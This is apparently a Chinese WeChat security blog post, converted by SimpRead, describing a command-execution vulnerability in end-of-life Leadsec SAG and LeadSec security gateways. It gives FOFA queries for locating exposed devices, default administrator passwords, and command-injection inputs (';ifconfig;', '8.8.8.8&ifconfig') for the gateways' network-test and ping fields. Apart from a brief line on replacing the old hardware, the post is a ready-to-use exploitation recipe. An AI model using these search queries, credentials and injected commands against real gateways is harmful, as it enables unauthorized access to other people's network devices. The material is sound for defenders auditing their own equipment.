 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YLgAZAO40PY8gX6Fh8D15w)

**描述**

  

网御星云安全网关有两个系列，SAG 系列和 Power V-VPN 系列，SAG 系列是比较老的一款产品，于 2016 年 9 月正式退市，但现网还存在不少未替换的 SAG 系列，该系列 V3.1.3.1 及以前版本存在后台命令执行漏洞。  

  

  

  

  

  

**影响范围**

  

网御星云安全网关 SAG 系列和 LeadSec 系列 <=V3.1.3.1 版本

  

  

  

  

  

防护建议  

  

及时进行换新安全网关防护，旧版本及时下架。

  

  

  

  

  

LeadSec 系列漏洞：

FOFA：

```
icon_hash="-948153991"
```

利用弱口令 (yyds)：

账号：administrator   密码：administrator  

漏洞点位于：

网关管理 -> 网络工具，在目的主机处填写：  

```
;ifconfig;
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBOeVZ0Wueu8ejAmePqaNH9IMvLhj1NxcibHM6iceOZqFGlVhoRDKmHNbDQxicIxNiaQGKzPMoM02Kc4A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBOeVZ0Wueu8ejAmePqaNH93ibG6qeCC54H7KEJcmFBVzsZSmfUd2RsS3G9uWmgYYCSOTxjlp0aypA/640?wx_fmt=png)

网御星云安全网关系列：

FOFA：

```
title="网御 安全网关"
```

利用弱口令 (yyds)：

账号：administrator   密码：leadsec@7766  

漏洞点位于：

状态监控 -> 网络测试 ->ping 处输入：

```
8.8.8.8&ifconfig
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibBOeVZ0Wueu8ejAmePqaNH9g9o99UvtvrCCQcibNoFtKUT6KRJAibS382P5iaPr1ViaFyRsUNZGQOQd1Q/640?wx_fmt=png)

老旧的退役设备请及时替换，不要给黑客留下机会。  

最后再说一下漏洞文库 wiki.xypbk.com 已经添加授权访问

获取授权方式为后台回复：文库授权  

    为防止黑产份子的非法利用漏洞，不给国家安全添麻烦，本站从此开启授权访问，形式以每人单独授权发放，限量 1000 人，请勿分享您获取的账号密码，账号密码具都采用随机生成的 32 位 MD5，还请牢记。

    如若因漏洞利用产生重大影响，会根据登录 IP、请求内容、申请授权等信息进行查证，查证后将对号主进行追责，故不要分享账号，终害己身。  

    虽然比较麻烦了些，但会稍微对黑产份子有一些限制，保证了本站安全，也保证国家安全。同时有些敏感东西也能第一时间放出来了，还请大家谅解。

    同时本站承诺永远不会出现买卖账号等利益相关的事情，本站永不割韭菜，永久免费检索，坚决抵制安全圈的歪风邪气。

    最后，若大家对此有意见请后台留言，本站将及时改正，若内容有侵犯您的权益，请及时提出，进行删除处理。  

    本站能坚持多久全看大家是否滥用，内容若更新较慢也请谅解，本人有工作有生活，会尽量坚持更新的。

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看